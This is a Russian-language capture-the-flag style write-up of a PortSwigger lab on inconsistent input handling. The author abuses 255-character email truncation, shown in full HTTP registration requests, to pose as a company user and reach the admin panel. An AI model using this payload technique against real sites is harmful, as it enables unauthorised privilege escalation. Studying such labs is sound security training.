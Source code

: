 ```yaml
---
title: "Inconsistent handling of exceptional input"
date: 2025-10-23
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input"
classes: wide
---
```


В лабе плохо валидируется ввод. Для решения нужно получить доступ к панели администратора и удалить пользователя `carlos`.

```
https://0aec001f0315d694808776da000c00bf.web-security-academy.net/
```

# Solution

Попробую зарегистрироваться на сайте.

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=YllAjaKC7P1WXFK16u5nBoQ7MfbpCd4F
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=zdYUHH7AEaRsWIp7nvMjWaGKH3cZUZOu&username=name&email=attacker%40exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net&password=11223344
```

Я не знаю что или кто это, но я неприменно от них.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/2.png){: height="200" .align-center}

Это как-то должно проверяться. Попробую вставить почту, а потом уже этот домен:

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=YllAjaKC7P1WXFK16u5nBoQ7MfbpCd4F
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=zdYUHH7AEaRsWIp7nvMjWaGKH3cZUZOu&username=name1&email=attacker%40exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net@dontwannacry.com&password=11223344
```

Не прокатило. Разные разделители я тоже попробовал. А почему нет, если да. Попробую сделать длинную почту. Домен все равно мой.

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=YllAjaKC7P1WXFK16u5nBoQ7MfbpCd4F
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 347
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=zdYUHH7AEaRsWIp7nvMjWaGKH3cZUZOu&username=name1&email=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker%40exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net&password=11223344
```

Нас обрезали)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/1.png){: height="200" .align-center}

```python
>>> s = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@exploit-0aab00d803fad6a58091759a01fb00c8.explo'
>>> len(s)
255
```

Строка имеет длину `255`.

Попробую скрафтить пейлоад так, чтобы `name` + `@dontwannacry.com` были равны по длине `255`, а далее добавлю`exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net`:

```
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo@dontwannacry.com.exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net
```

Отправлю:

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=UHNhJJEiNwfSjQ82w5Sj8QLoiqIdJq5x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 383
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=S6QwN8oGurEn0etIEdkxg7w6sJj2axjx&username=1&email=oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo%40dontwannacry.com.exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net&password=1
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/3.png){: height="200" .align-center}

А вот и админ панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/4.png){: height="200" .align-center}

`carlos` удален, значит лаба решена.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/5.png){: height="200" .align-center}